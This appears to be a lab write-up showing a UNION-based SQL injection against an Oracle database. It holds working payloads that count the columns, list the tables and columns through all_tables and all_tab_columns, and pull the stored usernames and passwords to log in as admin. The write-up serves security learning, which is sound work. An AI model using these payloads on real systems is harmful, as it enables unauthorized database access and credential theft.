

### SQL injection attack, listing the database contents on Oracle

---

> First, identify the number of output fields in the query. Do that using the adding `NULL` method. It is an oracle DB, so must add `FROM DUAL`.
```
' UNION SELECT NULL, NULL FROM DUAL--
```
> it has 2 output fields.

> Next, we determine the type of the output fields. We need to extract a username and a password, so we are looking for text type string.
```
' UNION SELECT 'a', NULL FROM DUAL-- 
' UNION SELECT NULL, 'a' FROM DUAL--
```
> Both work, hence both are strings.

> Since this is oracle, we can use `all_tables` to enumerate the tables of this database.
```
' UNION SELECT TABLE_NAME, NULL FROM all_tables --
```
> Choosing to attack the `USERS_QTKCOM` table.

> We need to find the column names of this table to check that they are indeed the usernames and passwords as required.
```
' UNION SELECT COLUMN_NAME, NULL FROM all_tab_columns WHERE table_name = 'USERS_QTKCOM' --
```

> 2 new rows were output that contain the column name for usernames and passowrds.
* PASSWORD_TMVXQH
* USERNAME_SITQKU

> Now, we need to get the data inside these columns using a normal query
```
' UNION SELECT USERNAME_SITQKU, PASSWORD_TMVXQH FROM USERS_QTKCOM --
```
> This outputs the usernames and passowrds in new rows.



> We can now login as admin and complete the lab.

---
